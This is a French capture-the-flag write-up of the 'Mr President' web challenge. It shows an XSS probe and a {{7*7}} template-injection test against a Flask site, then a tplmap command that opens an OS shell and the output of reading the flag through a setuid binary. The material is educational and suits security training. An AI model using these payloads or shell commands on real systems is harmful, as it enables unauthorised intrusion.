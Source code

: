 **WEB - Mr President - 2500**

Le site mis à disposition est un générateur de texte sur une image de Trump.

__Résolution :__

Le mot qui est passé à la variable **name** en GET est affiché en gros sur l'image :

```
http://mrpresident.sthack.fr/banish?name=Ryan
```

On repère rapidement une XSS :

```javascript
http://mrpresident.sthack.fr/banish?name=<script>alert(1)</script>
```

Aucun formulaire de contact donc nous passons à autre chose.

Si nous appelons une page qui n'existe pas, le site nous retourne comme information qu'il est développé avec flask.

On tente :

```
http://mrpresident.sthack.fr/banish?name=Ryan{{7*7}}
```

Nous obtenons comme retour  : Ryan49

Nous avons donc une template injection.

On récupère un shell avec [TPLMAP](https://github.com/epinna/tplmap) :

```BASH
./tplmap.py --os-shell -u 'http://mrpresident.sthack.fr/banish?name=Ryan'
```

On cherche le flag :


```BASH
posix-linux2 $ ls -lash /flag/is/here
total 28
     4 drwxr-xr-x    1 root     root        4.0K Apr  5 12:35 .
     4 drwxr-xr-x    1 root     root        4.0K Apr  5 12:35 ..
     4 -r--------    1 root     root          17 Mar  4 23:09 flag
     4 -rw-r--r--    1 root     root         198 Mar  4 23:13 getflag.c
    12 -rwsr-xr-x    1 root     root       10.5K Apr  5 12:35 runme
```

On affiche le flag :

```BASH
posix-linux2 $ cd /flag/is/here/;./runme
Y0u_G0t_TrUmp3d!
```



By team Beers4Flags


```
 ________
|        |
|  #BFF  |
|________|
   _.._,_|,_
  (      |   )
   ]~,"-.-~~[
 .=] Beers ([
 | ])  4   ([
 '=]) Flags [
   |:: '    |
    ~~----~~
```
